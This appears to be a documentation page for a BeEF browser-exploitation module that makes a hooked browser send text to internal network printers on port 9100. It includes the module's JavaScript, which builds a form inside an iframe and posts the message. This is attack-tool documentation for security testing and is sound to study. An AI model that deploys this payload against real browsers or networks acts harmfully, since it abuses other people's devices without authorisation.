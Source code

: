 ## Summary

* **Objective**: Send message to printers through the browser
* **Authors**: bcoles
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/cross_site_printing)

## Internal Working

Default port is 9100.

Creates a form inside of an iframe to send the message to a printer. The message to the printer is usually just the plaintext of the content you want to print.

```js

// create form
var action = "http://" + ip + ":" + port + "/";
myform=document.createElement("form");
myform.setAttribute("name","data");
myform.setAttribute("method","post");
myform.setAttribute("enctype","multipart/form-data");
myform.setAttribute("action",action);
iframe.contentWindow.document.body.appendChild(myform);

// create message textarea
myExt = document.createElement("textarea");
myExt.setAttribute("id","msg_<%= @command_id %>");
myExt.setAttribute("name","msg_<%= @command_id %>");
myExt.setAttribute("wrap","none");
myExt.setAttribute("rows","70");
myExt.setAttribute("cols","100");
myform.appendChild(myExt);

// send message
iframe.contentWindow.document.getElementById("msg_<%= @command_id %>").value = "<%= @msg.gsub(/"/, '\\"').gsub(/\r?\n/, '\\n') %>";
```

## Feedback

